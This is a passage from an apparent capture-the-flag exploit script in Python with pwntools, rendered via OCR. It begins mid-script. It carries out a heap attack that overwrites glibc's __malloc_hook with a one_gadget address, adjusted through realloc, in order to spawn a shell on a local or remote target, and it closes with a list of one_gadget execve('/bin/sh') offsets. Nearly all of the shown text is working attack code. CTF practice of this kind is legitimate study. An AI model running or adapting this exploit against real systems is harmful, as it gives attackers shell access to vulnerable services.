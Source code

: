 ```python
	p += p64(main_arena - 0x33)
	p += '\n'
	ad(0xA0, p)

	ad(0x68, '\n')
	# modify __malloc_hook as one gadget
	gadget = [0x45216, 0x4526a, 0xf02a4, 0xf1147]
	one_gadget = gadget[2] + libc_base
	realloc_addr = libc_base + lib.sym['realloc']
	li('realloc_addr ' + hex(realloc_addr))

	p = '\x11' * (0x13 - 0x8)
	p += p64(one_gadget)
	p += p64(realloc_addr + 12) #ajust execve second perm as 0
	p += '\n'
	ad(0x68, p)

	# get shell
	sla('>>', '1')
	sl('10')

def finish():
	ia()
	c()

#--------------------------Main-----------------------------
if __name__ == '__main__':
	
	if LOCAL:
		exe = ELF(exeFile)
		if LIB:
			lib = ELF(libFile)
			io = exe.process(env = {"LD_PRELOAD" : libFile})
		else:
			io = exe.process()
	
	else:
		exe = ELF(exeFile)
		io = remote(remoteIp, remotePort)
		if LIB:
			lib = ELF(libFile)
	
	exploit()
	finish()
'''
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
[rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
[rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
[rsp+0x70] == NULL
'''
```
